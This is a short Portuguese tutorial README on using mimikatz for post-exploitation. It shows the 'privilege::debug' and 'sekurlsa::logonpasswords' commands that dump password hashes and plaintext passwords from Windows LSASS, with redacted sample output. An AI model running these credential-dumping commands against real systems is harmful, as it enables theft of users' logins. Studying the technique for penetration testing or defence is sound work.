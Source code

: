 <img width="30%" src="https://i.imgur.com/ULwPfn3.png"></img>

# mimikatz
O [mimikatz](https://github.com/gentilkiwi/mimikatz) é uma ferramenta que vai te auxiliar na sua post-exploitation. Ele tem alguns modules/commands pra te adiantar muito, e foi implementado até no meterpreter do metasploit. Vou dar um exemplo de uma utilidade do mimikatz a seguir.<br>

### about mimikatz
o mimikatz começou como um dll injector chamado `kdll`. Depois foi implementado um Pass-The-Hash e foi renomeado para `kdllpipe`. Mais implementações foram sendo feitas até se tornar o mimikatz que hoje é comumente usado.<br>

# password dump
Vamos começar agora a demonstração. Após conseguir `nt/auth`, você pode utilizar o module `sekurlsa` para extrair diversas informações do `lsass (local security authority subsystem service)`, um handle do windows para alocar passwords e tickets. Caso você não seja nt/auth, ao tentar extrair alguma coisa com esse module, você vai se deparar com o seguinte erro: `ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)`.<br><br>

O comando usado para fazer a extração é o `logonpasswords`. Ao utilizar esse comando, seu resultado deve ser algo como:<br>
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords
Authentication Id : 0 ; x (00000000:000157e6)
Session           : Interactive from x
User Name         : x
Domain            : x-PC
SID               : x-x-x-x
        msv :
         [00000003] Primary
         * Username : x
         * Domain   : x-PC
         * LM       : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
         * NTLM     : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
         * SHA1     : xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
        tspkg :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        wdigest :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        kerberos :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        ssp :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword
        credman :
         * Username : x
         * Domain   : x-PC
         * Password : mypassword

```
<br>
[pwn](README.md)<br>
[home](../README.md)
